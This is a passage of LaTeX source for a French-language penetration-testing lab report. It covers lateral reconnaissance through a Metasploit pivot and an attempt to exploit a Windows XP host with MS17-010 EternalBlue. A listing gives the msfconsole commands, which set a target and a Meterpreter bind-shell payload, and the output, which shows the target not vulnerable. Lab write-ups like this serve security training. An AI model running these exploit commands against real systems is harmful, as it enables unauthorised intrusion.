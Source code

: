 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
	\textbf{Prochaine étape :} Tenter l'exploitation de Windows XP via des vulnérabilités SMB historiques.
	
	\subsection{Phase 4 : Reconnaissance Latérale}
	
	\subsection{Reconnaissance via Pivot}
	
	Grâce au pivot Metasploit configuré dans la phase précédente de ce chapitre, nous pouvons désormais
	effectuer une reconnaissance approfondie du réseau LAN en utilisant les
	modules auxiliaires de Metasploit. Tous les scans suivants transitent
	via la session Meterpreter sur Ubuntu DMZ.
	
	\subsection{Test de Vulnérabilités Historiques}
	
	Windows XP est historiquement vulnérable à plusieurs exploits critiques. Nous testons les plus célèbres.
	
	\subsubsection{MS17-010 (EternalBlue)}
	
	\textbf{Contexte :} EternalBlue est un exploit développé par la NSA et divulgué par le groupe Shadow Brokers. Il cible une vulnérabilité dans l'implémentation SMBv1 de Windows.
	
	\begin{lstlisting}[caption=Test MS17-010 via Metasploit]
		[msf](Jobs:0 Agents:1) >> use exploit/windows/smb/ms17_010_eternalblue
		[msf](Jobs:0 Agents:1) exploit(windows/smb/ms17_010_eternalblue) >> set RHOSTS 192.168.20.50
		RHOSTS => 192.168.20.50
		
		[msf](Jobs:0 Agents:1) exploit(windows/smb/ms17_010_eternalblue) >> set PAYLOAD windows/x64/meterpreter/bind_tcp
		PAYLOAD => windows/x64/meterpreter/bind_tcp
		
		[msf](Jobs:0 Agents:1) exploit(windows/smb/ms17_010_eternalblue) >> exploit
		
		[*] 192.168.20.50:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
		[-] 192.168.20.50:445 - The target is not vulnerable.
		[*] Started bind TCP handler against 192.168.20.50:4444
		[*] Exploit completed, but no session was created.
	\end{lstlisting}
	
\end{document}
